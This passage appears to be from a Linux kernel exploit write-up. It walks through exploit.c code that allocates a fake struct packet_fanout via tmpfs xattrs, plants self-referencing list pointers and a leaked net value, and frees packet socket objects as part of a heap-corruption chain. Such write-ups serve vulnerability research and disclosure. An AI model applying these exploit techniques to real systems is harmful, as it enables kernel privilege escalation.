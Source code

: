 Details:
- [exploit.c#L411](./exploit.c#L411):

```c
if (!create_file(FAKE_PACKET_FANOUT_FILE_PATH))
  return false;
```

- Create a file in tmpfs mountpoint. This file path will be used to allocate `struct simple_xattr` object [exploit.c#L175](./exploit.c#L175):

```c
bool create_file(const char *path)
{
  int fd = open(path, O_WRONLY | O_CREAT, 0644);
  if (fd < 0) {
    fprintf(stderr, "create file %s failed: %s\n", path, strerror(errno));
    return false;
  }

  close(fd);
  return true;
}
```

- [exploit.c#L34](./exploit.c#L34):

```c
#define FAKE_PACKET_FANOUT_FILE_PATH "/tmp/tmpfs_mountpoint/fake_packet_fanout_and_netlink_sock"
```

- Prepare fake `struct packet_fanout` object [exploit.c#L414](./exploit.c#414):

```c
uint64_t fake_packet_fanout_addr = packet_sock_addr + SIMPLE_XATTR_STRUCT_SIZE;
uint8_t fake_packet_fanout_buffer[DYN_KMALLOC_1024] = {};
struct packet_fanout *f = (struct packet_fanout*)fake_packet_fanout_buffer;
f->net = net;
f->flags = PACKET_FANOUT_HASH;
f->id = 0xcafe;
f->max_num_members = 1;
f->list.prev = fake_packet_fanout_addr + offsetof(struct packet_fanout, list);
f->list.next = fake_packet_fanout_addr + offsetof(struct packet_fanout, list);
```

- fake_packet_fanout_addr: This is `A1` discuss in idea.
- `net`: use the net value that is leaked from `struct packet_fanout` object before.
- `flags`: other value is ok. Make sure later steps match the value set here.
- `id`: other value is ok. Make sure later steps match the value set here.
- `max_num_members`: other value is ok. Make sure later steps match the value set here.
- `list.prev`: &(A1->list), `list.next`: &(A1->list). This ensure when `list_del(&match->list)` is called, `list_del` do not touch the prev and the next object in the list.

- Free `struct packet_sock` object and `struct packet_fanout` object [exploit.c#L424](./exploit.c#L424):

```c
packet_socket_destroy(dyn_kmalloc_2048_packet_socket_fd);
```
- [exploit.c#L322](./exploit.c#L322):
